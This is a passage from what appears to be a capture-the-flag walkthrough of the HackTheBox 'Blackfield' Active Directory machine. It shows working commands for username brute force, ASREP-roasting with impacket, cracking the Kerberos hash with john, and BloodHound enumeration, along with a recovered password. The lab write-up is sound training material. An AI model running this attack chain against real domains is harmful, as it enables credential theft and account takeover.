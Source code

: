 There aren't any files within these directories, so I just compiled all the usernames into a list. There were over 300 different usernames. I tried to brute force SMB with `crackmapexec`, but no username served as a password.&#x20;

When trying ASREP-Roasting, it worked and we could get a hash for the `support` user.&#x20;

```bash
$ impacket-GetNPUsers blackfield.local/ -dc-ip 10.129.105.19 -usersfile users -outputfile hashes.asreproast
$ cat hashes.asreproast
$krb5asrep$23$support@BLACKFIELD.LOCAL:05a0cabfcc50e33745e2e89eefc310e4$419bbe29f6524d207946bf2c7a85d10c0b9fb7e2ee0539fb56de42e6140225b474ee337222074af7822f46d204e0681c257dc23b4652d3d30e08423df6b6b1e7167906a863d076a10fcac807ab4c8bfe972a993a3729ca87fd7fd65997bb84b7368691cabf62506880dcced356153685d65bca7f62b22b661f19f750c80b66774881efff55c6351e9c3027c7a7654bb470ef4ff1589738dd8191bdc5c38248c072478518c62d7d169aed727dc0f47a75b93e296cd90328b3a6a875e6a2db3f13769160e438c48664d5e81dcc68e2e3e79e5b8fb9af6288739bbbe7626ea5997d9c3691123afc869624bb2a299f5e1cc088bac9bf
```

We can crack this hash using `john`.&#x20;

```
$ john --wordlist=/usr/share/wordlists/rockyou.txt hashes.asreproast 
Using default input encoding: UTF-8
Loaded 1 password hash (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 128/128 AVX 4x])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
#00^BlackKnight  ($krb5asrep$23$support@BLACKFIELD.LOCAL)     
1g 0:00:00:07 DONE (2023-05-07 07:28) 0.1254g/s 1798Kp/s 1798Kc/s 1798KC/s #1ByNature..#*burberry#*1990
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

### Bloodhound --> Change Password

This user had no access to any new shares. However, we can use `bloodhound-python` to find more information about the domain and this user.&#x20;

```bash
$ bloodhound-python -u support -p '#00^BlackKnight' -d blackfield.local -ns 10.129.105.19 -c all --dns-tcp
```

After uploading the data to Bloodhound, we can view what the `support` user can do. It appears `support` has ForceChangePassword privileges over `audit2020`.

<figure><img src="../../../.gitbook/assets/image (435) (2).png" alt=""><figcaption></figcaption></figure>
